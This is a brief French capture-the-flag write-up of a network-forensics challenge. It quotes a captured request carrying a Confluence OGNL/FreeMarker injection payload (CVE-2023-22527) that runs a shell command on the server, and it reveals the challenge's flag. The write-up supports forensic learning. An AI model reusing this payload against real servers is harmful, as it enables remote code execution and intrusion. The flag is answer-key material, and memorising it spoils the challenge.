

## Résolution

On trouve notre attaque à la frame 309 : 
```
)6PVÀEJѼ@?ÛÀ¨À¨Ø´®±w³ÁÏö²s
bE?üsVlabel=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().getWriter().write((new freemarker.template.utility.Execute()).exec({"ls"}))
```

Une recherche google dessus et on tombe sur  notre CVE : `CVE-2023-22527`
On récupère l’heure de reception du paquet en UTC : `Aug 15, 2024 22:51:08.931436000 UTC`

Et on modifie tout ça pour arrive au format attendu.


>[!question]- Spoiler du flag
> OPENNC{CVE-2023-22527_2024-08-15_22:51:08}

